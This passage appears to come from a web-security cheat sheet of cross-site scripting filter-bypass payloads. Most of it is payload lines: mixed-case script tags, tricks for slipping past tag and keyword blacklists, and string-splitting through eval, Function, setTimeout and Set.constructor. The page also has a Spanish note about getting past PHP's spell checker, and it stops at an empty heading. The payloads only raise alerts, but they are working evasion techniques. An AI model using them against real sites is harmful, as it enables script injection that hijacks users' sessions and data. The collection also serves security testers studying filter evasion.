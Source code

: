 ## PHP Spell Checker Bypass

Úselo para omitir la función "pspell_new" de PHP, que proporciona un diccionario para intentar adivinar la entrada utilizada para la búsqueda.

Una función similar a la de Google para los campos de búsqueda:

```
<scrpt> confirm(1) </scrpt>

<scrpt>write(1)</scrpt>

<scrpt> write(1) </scrpt>
```

## Filter Bypass and exotic payloads

### Bypass case sensitive

```javascript
<sCrIpt>alert(1)</ScRipt>
```

### Bypass tag blacklist

```javascript
<script x>
	
<script x>alert('XSS')<script y>
```

### Bypass word blacklist with code evaluation

```javascript
eval('ale'+'rt(0)');

Function("ale"+"rt(1)")();

new Function`al\ert\`6\``;

setTimeout('ale'+'rt(2)');

setInterval('ale'+'rt(10)');

Set.constructor('ale'+'rt(13)')();

Set.constructor`al\x65rt\x2814\x29```;
```

### Bypass with incomplete html tag

Works on IE/Firefox/Chrome/Safari
